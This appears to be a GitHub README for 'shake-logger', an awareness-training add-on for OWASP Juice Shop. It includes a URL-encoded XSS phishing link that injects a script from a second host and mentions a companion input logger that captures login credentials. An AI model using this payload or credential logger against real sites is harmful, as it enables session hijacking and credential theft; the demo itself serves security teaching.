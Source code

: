 # shake-logger
This projects provides a logger and a connected harlem shake js.

# Juice Shop
This projects helps in awareness trainings, specally with the [juice shop](https://github.com/bkimminich/juice-shop).
You can use it via docker and docker-compose running:
´docker-compose up´

To show the possible impact of[XSS](https://www.owasp.org/index.php/Cross-site_Scripting_(XSS), assume you received and (of course) clicked
[this inconspicuous phishing link](http://localhost:3000/#/search?q=%3Cscript%3Evar%20js%20%3Ddocument.createElement%28%22script%22%29;js.type%20%3D%20%22text%2Fjavascript%22;js.src%3D%22http:%2F%2Flocalhost:8080%2Fshake.js%22;document.body.appendChild%28js%29;varhash%3Dwindow.location.hash;window.location.hash%3Dhash.substr%280,8%29;%3C%2Fscript%3Eapple)
and login. Apart from the visual/audible effect, the attacker also
installed [an input logger](http://localhost:8080/logger.php) to grab credentials! This could easily run on a 3rd party server in real life!
